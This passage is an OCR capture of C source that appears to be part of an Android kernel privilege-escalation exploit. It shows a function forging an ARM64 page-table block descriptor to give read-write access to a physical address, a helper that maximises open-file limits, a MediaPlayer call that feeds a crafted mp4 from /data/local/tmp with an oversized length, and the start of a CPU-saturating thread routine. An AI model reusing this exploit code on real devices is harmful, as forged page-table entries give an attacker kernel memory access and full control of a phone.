 ```c
}

unsigned long get_fack_block(unsigned long phys_addr)
{
	unsigned long fake_d_block = 0l	;
	// d_block 中的内容，主要是修改 AP[2:1], 修改为读写属性
    	// bit[1:0]
    	fake_d_block = fake_d_block | (0x0000000000000001);     //                  Y
    	// bit[11:2] lower block attributes
    	fake_d_block = fake_d_block | (0x0000000000000800);     // nG, bit[11]      Y
    	fake_d_block = fake_d_block | (0x0000000000000400);     // AF, bit[10]      Y
    	fake_d_block = fake_d_block | (0x0000000000000200);     // SH, bits[9:8]
    	fake_d_block = fake_d_block | (0x0000000000000040);     // AP[2:1], bits[7:6]
    	fake_d_block = fake_d_block | (0x0000000000000020);     // NS, bit[5]       Y
   	fake_d_block = fake_d_block | (0x0000000000000010);     // AttrIndx[2:0], bits[4:2]
    	// bit[29:12] RES0
    	// bit[47:30] output address
    	fake_d_block = fake_d_block | (phys_addr & 0x0000ffffc0000000);
    	// bit[51:48] RES0
    	// bit[63:52] upper block attributes, [63:55] ignored
    	//fake_d_block = fake_d_block | (0x0010000000000000);     // Contiguous, bit[52]
    	//fake_d_block = fake_d_block | (0x0020000000000000);     // PXN, bit[53]
    	//fake_d_block = fake_d_block | (0x0040000000000000);     // XN, bit[54]
	return fake_d_block;
}

int maximize_fd_limit(void){
    struct  rlimit rlim;
    int ret;

    ret = getrlimit(RLIMIT_NOFILE,&rlim);
    if(ret != 0){
        return -1;
    }

    rlim.rlim_cur = rlim.rlim_max;
    setrlimit(RLIMIT_NOFILE,&rlim);

    ret = getrlimit(RLIMIT_NOFILE,&rlim);
    if(ret != 0){
        return -1;
    }
    return rlim.rlim_cur;
}

status_t setDataSource()
{
	const char * path = "/data/local/tmp/3685c32c15c5dad78aaa19ca697d4ae5.mp4";
	int fd = open(path, O_RDONLY | O_LARGEFILE);
	if (fd < 0)
	{
		printf("[-] open map4 failed\n");
		return -1;
	}
	return mediaPlayer->setDataSource(fd, 0, 0x7ffffffffffffffL);
}

int getCores() {
    	return sysconf(_SC_NPROCESSORS_CONF);
}

void* fillCpu(void *arg)
{
```